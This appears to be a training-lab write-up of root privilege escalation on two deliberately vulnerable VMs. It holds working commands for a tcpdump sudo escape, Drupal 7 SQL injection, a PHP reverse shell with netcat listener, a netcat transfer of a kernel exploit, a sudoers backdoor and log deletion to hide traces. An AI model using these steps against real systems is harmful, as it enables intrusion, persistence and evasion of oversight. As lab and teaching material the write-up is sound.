

====================
Privilege Escalation
====================

.. contents::

.. sectnum::

Introduction
============
Two vulnerable VMs were provided, with the objective of achieving root access via privilege escalation.

Methodology
===========

Wordpress Webdeveloper
----------------------

tcpdump 
~~~~~~~
The ``webdeveloper`` account has ``sudo`` privilege to execute ``/usr/bin/tcpdump``. This can be exploited to execute commands with elevated privileges [#]_.

.. [#] https://gtfobins.github.io/gtfobins/tcpdump/

``webdeveloper`` was then given full ``sudo`` privileges with the following commands::

   echo "usermod -aG sudo webdeveloper" > /tmp/esc
   chmod +x /tmp/esc
   sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/esc -Z root

  Running usermod with root privileges to add webdeveloper into the sudoers group

After logging out and logging in, ``webdeveloper`` will have access to full ``sudo`` privileges.

  Viewing the normally restricted /etc/shadow

Vulnerable VM 2
---------------

Host Discovery
~~~~~~~~~~~~~~
The IP address of the target on the network was elucidated using ``nmap -sn``::

   nmap -sn <target network/netmask>

  -sn (previously -sP) for ping scan without following up with port scan.

Target Reconnaissance
~~~~~~~~~~~~~~~~~~~~~
Preliminary information on the target was obtained using ``nmap -A``::

   nmap -A <target ip>

  -A for OS and version detection, script scanning, and traceroute

``-A`` is a convenience option that includes OS detection (``-O``), service and version detection (``-sV``), script scanning (``-sC``), and traceroute (``--traceroute``).

We can see that an Apache http daemon is running on the open port 80. It is hosting a Drupal 7 CMS, on a Linux kernel version between 3.2 - 4.8. Some files and directories listed in ``robots.txt`` seem to be directly accessible via http.

Web Services
~~~~~~~~~~~~
Since there is a webserver on the target, more information can be gleaned about the web services it is running::

    whatweb -v <target url/ip>

  ``-v`` for increased verbosity

The website is also running PHP 5.5.9.

robots.txt
~~~~~~~~~~
``robots.txt`` exposes the addresses of some files accessible via http. Examining ``CHANGELOG.txt`` reveals the exact Drupal version.

  Exploiting information leaked by robots.txt

Searchsploit
~~~~~~~~~~~~
Queries for the web services were run using ``searchsploit`` to look for suitable vulnerabilities to exploit.

   searchsploit -e <term>

  ``-e`` to match exact search terms and reduce false positive results.

It looks like Drupal 7.30 is vulnerable to SQL Injection.

SQL Injection
~~~~~~~~~~~~~
The exploit for SQL injection was examined to see if it is suitable for gaining access to the Drupal CMS. It seems to create a Drupal user, but requires the ``drupalpass`` module from ``https://github.com/cvangysel/gitexd-drupalorg/blob/master/drupalorg/drupalpass.py``.

  Looks like the exploit creates a Drupal user account.

``drupalpass.py`` was obtained and placed in the same working directory as ``34984.py``. The exploit was then executed as demonstrated in the source code.

  Success!

A new Drupal user with administrator access was created.

  Just an editor, nothing to be suspicious of.

PHP Reverse Shell
~~~~~~~~~~~~~~~~~
Since Drupal uses PHP, a PHP reverse shell [#]_ could possibly be used as an attack vector.

.. [#] http://pentestmonkey.net/tools/web-shells/php-reverse-shell

It turns out that there is an option in Drupal 7 to allow PHP code execution in the body of a post. [#]_

.. [#] https://www.drupal.org/docs/7/howtos/add-php-code-to-the-body-of-a-drupal-7-block

The Drupal 7 documentation was followed to enable the ``PHP Filter`` in the ``Modules`` subsection.

Administrators were then given the permission to ``Use the PHP code text format`` under the ``People/Permissions`` subsection.

A ``Basic page`` was created by clicking ``Add content``, with the code for the PHP reverse shell pasted into the content body, modifying the source to the appropriate IP address and port as in its instructions. The text format was set to ``PHP Code`` so that it will execute when loaded.

``nc`` (``netcat``) was used to create an open port to listen to incoming traffic from the reverse shell::

   nc -lvnp <port>

   -l listen for inbound connects
   -v verbose
   -n numeric-only IP address; avoids a DNS lookup
   -p local port number

The PHP reverse shell connected once the posted page was loaded.

Privilege Escalation
~~~~~~~~~~~~~~~~~~~~
The PHP reverse shell script has conveniently included a call to ``uname -a`` upon process opening. We can identify that the server is running ``Linux 3.13``.

``searchsploit`` was then used again to look for suitable kernel vulnerabilities to exploit.

The vulnerabilities are checked if they will result in privilege escalation.

  Checking suitability of kernel explots.

It looks like ``Linux 3.13`` is susceptible to an ``overlayfs`` attack which will result in root privilege escalation. The exploit does not seem to require additional dependencies to execute.

The source code for the exploit has to be transferred over to the target server. In order to do that, ``nc`` (``netcat``) is once again used.

Another port is opened and set to listen on the target server, redirecting any incoming stream to the target location::

   nc -lvnp <target port> > /tmp/<file output>

The ``/tmp`` directory is chosen as it has global read-write-execute access permissions for executing the exploit.

The attacker will then connect to the open port to initiate transfer::

   nc <target ip> <target port> < <file input>

  The exploit is transferred from attacker (bottom) to target (top).

Once the file is transferred, it is compiled using ``gcc`` and executed, resulting in privilege escalation to root.

  Root access granted.

Backdoor and Clean Up
~~~~~~~~~~~~~~~~~~~~~
A new user can then be created and added to the ``/etc/sudoers`` file as a backdoor::

   adduser <username>
   echo "<username> ALL=(ALL:ALL) ALL" >> /etc/sudoers

  The innocuous ``printer-spooler`` is granted root privileges.

An SSH server can be installed. Server logs and the Drupal page with the PHP reverse shell exploit can then be removed to hide traces of the hack.

Conclusion
==========
By systematically exploiting software and OS vulnerabilities, root access was obtained via privilege escalation in two VMs. This highlights the importance of keeping system software up to date in order to minimize the attack surfaces that hackers might use to gain unauthorized access to the system.
